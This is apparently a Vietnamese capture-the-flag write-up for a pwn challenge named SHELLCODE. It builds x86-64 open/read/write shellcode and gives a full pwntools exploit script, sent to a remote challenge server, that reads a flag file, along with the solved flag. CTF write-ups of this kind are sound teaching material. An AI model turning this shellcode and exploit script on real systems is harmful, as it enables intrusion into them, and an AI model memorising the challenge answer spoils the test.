






# SHELLCODE (pwn)

> Dễ mà tự viết đi trên trên mạng không có đâu
>
> - Bắt buộc dùng open, read, write để đọc flag
> - Không cần quan tâm đến seccomp
> - Dùng syscall ngoài open, read, write sẽ bị khóa

## Exploit

- Kiểm tra chương trình với `file`, là file binary 64bit

  

- Kiểm tra với `checksec`, NX được tắt, có thể exploit bằng shellcode, nhưng chỉ giới hạn ở các hàm `open`, `read`, `write`

  

- Chạy chương trình, ta cần đọc file `PhaPhaKhongCoDon.txt`

  

- Đầu tiên là đẩy tên file vào stack, mỗi lần như thể thỉ tối đa 8 bytes nên phải thực hiện 3 lần, lúc này `PhaPhaKhongCoDon.txt` nằm tại `rsp`

  ```python
    'mov rax, %d' % u64(b'.txt\0\0\0\0'),
    'push rax',
    'mov rax, %d' % u64(b'ongCoDon'),
    'push rax',
    'mov rax, %d' % u64(b'PhaPhaKh'),
    'push rax',
  ```

- Sau đó mở file, với syscall number là 0x2, tên file sẽ vào `rdi`, nên sẽ `mov` tên file từ `rsp`, và mode `O_RDONLY = 0`

  ```python
  'mov rax, 0x2',
  'mov rdi, rsp',
  'xor rsi, rsi',
  'xor rdx, rdx',
  'syscall',
  ```

  

- Sau đó ta sẽ đọc file, đầu tiên file descriptor được lưu ở rax, nên `mov` vào `rdi`, với buffer để lưu dữ liệu trong file, nhằm chắc chắn thanh ghi có có địa chỉ, ta sẽ sử dụng `rsp`, và buffer size sẽ là `0x50`. Syscall number là 0x0

  ```python
  'mov rcx, rax',
  'xor rax, rax',
  'mov rdi, rcx',
  'mov rsi, rsp',
  'mov rdx, 0x50',
  'syscall',
  ```

  

- Cuối cùng là in flag ra, với buffer như ở trên sẽ là `rsp`, độ dài sẽ được lưu ở `rax`

  ```python
  'mov rcx, rax',
  'mov rax, 0x1',
  'mov rdi, 0x1',
  'mov rsi, rsp',
  'mov rdx, rcx',
  'syscall'
  ```

- Như vậy, có được code exploit: [ShellCode.py](ShellCode.py)

  ```python
  from pwn import *


  #p = process('./shellcode')

  p = remote('45.122.249.68', '10017')

  context.clear(arch='amd64', os='linux')

  payload = asm('\n'.join([
      'mov rax, %d' % u64(b'.txt\0\0\0\0'),
      'push rax',
      'mov rax, %d' % u64(b'ongCoDon'),
      'push rax',
      'mov rax, %d' % u64(b'PhaPhaKh'),
      'push rax',

      'mov rax, 0x2',
      'mov rdi, rsp',
      'xor rsi, rsi',  # open
      'xor rdx, rdx',
      'syscall',

      'mov rcx, rax',
      'xor rax, rax',
      'mov rdi, rcx',  # read
      'mov rsi, rsp',
      'mov rdx, 0x50',
      'syscall',

      'mov rcx, rax',
      'mov rax, 0x1',
      'mov rdi, 0x1',  # write
      'mov rsi, rsp',
      'mov rdx, rcx',
      'syscall'
  ]))

  p.sendline(payload)
  p.interactive()
  ```

  
> Flag: Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}